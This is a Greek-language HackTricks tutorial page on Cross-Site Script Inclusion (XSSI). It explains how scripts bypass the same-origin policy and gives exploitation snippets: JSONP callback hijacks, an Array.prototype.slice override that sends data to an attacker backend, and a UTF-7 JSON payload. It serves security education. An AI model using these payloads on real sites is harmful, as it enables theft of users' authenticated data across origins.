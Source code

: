 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**Cross-Site Script Inclusion (XSSI)** είναι μια ευπάθεια που προκύπτει από τη φύση της ετικέτας `script` στο HTML. Σε αντίθεση με τους περισσότερους πόρους, οι οποίοι υπόκεινται στην **Same-Origin Policy (SOP)**, τα σενάρια μπορούν να συμπεριληφθούν από διαφορετικά domains. Αυτή η συμπεριφορά προορίζεται να διευκολύνει τη χρήση βιβλιοθηκών και άλλων πόρων που φιλοξενούνται σε διαφορετικούς διακομιστές, αλλά εισάγει επίσης έναν πιθανό κίνδυνο ασφάλειας.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Τα σενάρια εξαιρούνται από την **Same-Origin Policy**, επιτρέποντάς τους να συμπεριλαμβάνονται σε διαφορετικά domains.
- **Data Exposure**: Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτή τη συμπεριφορά για να διαβάσει δεδομένα που φορτώνονται μέσω της ετικέτας `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** είναι ιδιαίτερα σχετικό για δυναμικό JavaScript ή **JSON with Padding (JSONP)**. Αυτές οι τεχνολογίες συχνά χρησιμοποιούν πληροφορίες "ambient-authority" (όπως cookies) για αυθεντικοποίηση. Όταν γίνεται αίτημα σενάριου σε διαφορετικό host, αυτά τα διαπιστευτήρια (π.χ., cookies) περιλαμβάνονται αυτόματα στο αίτημα.
- **Authentication Token Leakage**: Εάν ένας επιτιθέμενος μπορεί να παραπλανήσει τον περιηγητή ενός χρήστη να ζητήσει ένα σενάριο από έναν διακομιστή που ελέγχει, μπορεί να έχει πρόσβαση σε ευαίσθητες πληροφορίες που περιέχονται σε αυτά τα αιτήματα.

### Types

1. **Static JavaScript** - Αυτό αντιπροσωπεύει τη συμβατική μορφή του XSSI.
2. **Static JavaScript with Authentication** - Αυτός ο τύπος είναι διακριτός επειδή απαιτεί αυθεντικοποίηση για πρόσβαση.
3. **Dynamic JavaScript** - Περιλαμβάνει JavaScript που δημιουργεί δυναμικά περιεχόμενο.
4. **Non-JavaScript** - Αναφέρεται σε ευπάθειες που δεν περιλαμβάνουν άμεσα JavaScript.

**Η παρακάτω πληροφορία είναι μια σύνοψη του [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Ελέγξτε το για περισσότερες λεπτομέρειες.

### Regular XSSI

Σε αυτή την προσέγγιση, ιδιωτικές πληροφορίες είναι ενσωματωμένες μέσα σε ένα παγκοσμίως προσβάσιμο αρχείο JavaScript. Οι επιτιθέμενοι μπορούν να εντοπίσουν αυτά τα αρχεία χρησιμοποιώντας μεθόδους όπως η ανάγνωση αρχείων, αναζητήσεις λέξεων-κλειδιών ή κανονικές εκφράσεις. Μόλις εντοπιστούν, το σενάριο που περιέχει ιδιωτικές πληροφορίες μπορεί να συμπεριληφθεί σε κακόβουλο περιεχόμενο, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε ευαίσθητα δεδομένα. Ένα παράδειγμα τεχνικής εκμετάλλευσης φαίνεται παρακάτω:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

Αυτοί οι τύποι επιθέσεων XSSI περιλαμβάνουν εμπιστευτικές πληροφορίες που προστίθενται δυναμικά στο σενάριο ως απάντηση σε ένα αίτημα χρήστη. Η ανίχνευση μπορεί να γίνει στέλνοντας αιτήματα με και χωρίς cookies και συγκρίνοντας τις απαντήσεις. Εάν οι πληροφορίες διαφέρουν, αυτό μπορεί να υποδηλώνει την παρουσία εμπιστευτικών πληροφοριών. Αυτή η διαδικασία μπορεί να αυτοματοποιηθεί χρησιμοποιώντας εργαλεία όπως το [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

Εάν τα εμπιστευτικά δεδομένα αποθηκεύονται σε μια παγκόσμια μεταβλητή, μπορούν να εκμεταλλευτούν χρησιμοποιώντας παρόμοιες μεθόδους με αυτές που χρησιμοποιούνται στο Regular XSSI. Ωστόσο, εάν τα εμπιστευτικά δεδομένα περιλαμβάνονται σε μια απάντηση JSONP, οι επιτιθέμενοι μπορούν να καταλάβουν τη συνάρτηση callback για να ανακτήσουν τις πληροφορίες. Αυτό μπορεί να γίνει είτε χειραγωγώντας παγκόσμια αντικείμενα είτε ρυθμίζοντας μια συνάρτηση που θα εκτελείται από την απάντηση JSONP, όπως φαίνεται παρακάτω:
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Για μεταβλητές που δεν βρίσκονται στο παγκόσμιο namespace, η _τροποποίηση του πρωτοτύπου_ μπορεί μερικές φορές να εκμεταλλευτεί. Αυτή η τεχνική εκμεταλλεύεται το σχεδιασμό της JavaScript, όπου η ερμηνεία του κώδικα περιλαμβάνει την περιήγηση στην αλυσίδα πρωτοτύπων για να εντοπιστεί η καλούμενη ιδιότητα. Με την αντικατάσταση ορισμένων συναρτήσεων, όπως το `slice` του `Array`, οι επιτιθέμενοι μπορούν να αποκτήσουν πρόσβαση και να διαρρεύσουν μη παγκόσμιες μεταβλητές:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
Περισσότερες λεπτομέρειες σχετικά με τα επιθετικά διανύσματα μπορούν να βρεθούν στο έργο του Ερευνητή Ασφαλείας [Sebastian Lekies](https://twitter.com/slekies), ο οποίος διατηρεί μια λίστα με [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Η έρευνα του Takeshi Terada εισάγει μια άλλη μορφή XSSI, όπου τα αρχεία Non-Script, όπως το CSV, διαρρέουν διασυνοριακά περιλαμβάνοντας τα ως πηγές σε μια ετικέτα `script`. Ιστορικές περιπτώσεις XSSI, όπως η επίθεση του Jeremiah Grossman το 2006 για την ανάγνωση ενός πλήρους βιβλίου διευθύνσεων Google και η διαρροή δεδομένων JSON του Joe Walker το 2007, αναδεικνύουν τη σοβαρότητα αυτών των απειλών. Επιπλέον, ο Gareth Heyes περιγράφει μια παραλλαγή επίθεσης που περιλαμβάνει κωδικοποιημένα σε UTF-7 JSON για να ξεφύγει από τη μορφή JSON και να εκτελέσει σενάρια, αποτελεσματική σε ορισμένους περιηγητές:
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
